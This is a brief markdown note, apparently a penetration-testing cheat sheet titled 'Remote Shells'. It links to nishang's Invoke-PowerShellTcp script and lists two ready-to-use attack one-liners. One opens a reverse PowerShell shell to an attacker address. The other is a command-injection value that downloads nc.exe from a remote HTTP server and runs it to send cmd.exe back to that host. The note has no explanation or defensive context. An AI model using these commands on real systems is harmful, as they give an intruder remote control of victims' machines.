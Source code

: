 

# Remote Shells

[nishang/Shells/Invoke-PowerShellTcp.ps1 at master · samratashok/nishang · GitHub](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)

```
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.5 -Port 443
```

```
cmd=dir|powershell -c "iwr -uri http://192.168.49.57:8000/nc.exe -outfile %temp%\\n.exe"; %temp%\\nc.exe -e cmd.exe 192.168.49.57 80
```

